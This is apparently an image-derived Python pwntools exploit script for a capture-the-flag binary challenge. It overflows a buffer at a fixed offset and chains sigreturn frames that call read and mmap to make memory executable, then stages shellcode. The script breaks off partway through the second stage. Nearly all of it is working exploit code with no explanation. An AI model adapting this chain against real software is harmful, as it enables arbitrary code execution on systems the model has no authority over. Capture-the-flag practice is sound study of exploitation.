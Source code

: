 ```python
syscall_ret = 0x0000000000401ab2
pop_rax = 0x000000000040100b
bss = 0x404780
gets_addr = 0x0000000000401230
offset = 0x128
call_rax = 0x0000000000402390
gets = 0x401795
#mmap(0x0, 0x1000000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED)
def read_main():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)
    frame = SigreturnFrame(arch="amd64",kernel="amd64")
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = bss
    frame.rdx = 16
    frame.rsp = bss
    frame.rip = syscall_ret
    payload += bytes(frame)
    return payload

def read_shellcode():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)
    frame = SigreturnFrame(arch="amd64",kernel="amd64")
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = 0x200000
    frame.rdx = 0x300
    frame.rsp = bss
    frame.rip = syscall_ret
    payload += bytes(frame)
    payload += p64(call_rax)
    return payload

def mmap():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)

    frame = SigreturnFrame(arch = "amd64", kernel="amd64")
    frame.rax = 0x9
    frame.rdi = 0x200000
    frame.rsi = 0x100000
    frame.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
    frame.r10 = constants.MAP_ANONYMOUS | constants.MAP_PRIVATE | constants.MAP_FIXED
    frame.r8 = -1
    frame.rip = syscall_ret
    frame.rsp = 0x404898

    payload += bytes(frame)
    return payload

payload = b'a'*offset
payload += read_main()
input("stage1")
p.sendlineafter(b'pwn me pls',payload)
input()
p.sendline(p64(exe.sym.main))

input("stage2")
payload3 = b'a'*offset
payload3 += mmap()
payload3 += p64(pop_rax)
```